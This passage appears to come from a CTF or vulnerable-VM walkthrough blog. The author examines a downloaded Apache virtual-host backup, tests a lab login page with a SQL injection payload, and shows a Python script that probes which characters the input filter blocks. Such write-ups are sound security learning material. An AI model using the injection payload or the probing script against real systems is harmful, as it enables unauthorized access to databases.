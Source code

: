 I downloaded the `888.darknet.com.backup` file and took a look at it.

{% highlight text %}
<VirtualHost *:80>
    ServerName 888.darknet.com
    ServerAdmin devnull@darknet.com
    DocumentRoot /home/devnull/public_html
    ErrorLog /home/devnull/logs
</VirtualHost>
{% endhighlight %}

Hrmm.. a virtual host configuration. I added `192.168.56.106 888.darknet.com` to my local `/etc/hosts` 
and then pointed my browser to `888.darknet.com` to be presented with this:

{% img http://i.imgur.com/PcMHBLd.png %}

Initial thoughts are SQLi, so  I started with some simple SQL injections to see 
if my hunch is correct. Entering a username like `' or '1'='1` 
yields an *Ilegal*[sic] message. So this means two things: 1) SQLi is very
probably here becasue 2) our input is filtered. I didn't fancy working out
what chars I can and can't use so I made a script to do that for me

{% highlight python %}
#!/usr/bin/python

import requests
import string
import re

def testit(c):
    url = 'http://888.darknet.com/index.php'
    payload = 'username=%s&password=%s&Action=Login' % (c, c)

    r = requests.post(url, data=payload)
    m = re.search('.*Ilegal.*', r.text)
    if m:
        print '%s\tIllegal' % c
    else:
        print '%s\t OK' % c

for c in string.punctuation:
    testit(c)

{% endhighlight %}

which yielded the following as illegal characters.

{% highlight text %}
,	Illegal
-	Illegal
;	Illegal
<	Illegal
=	Illegal
>	Illegal
{% endhighlight %}
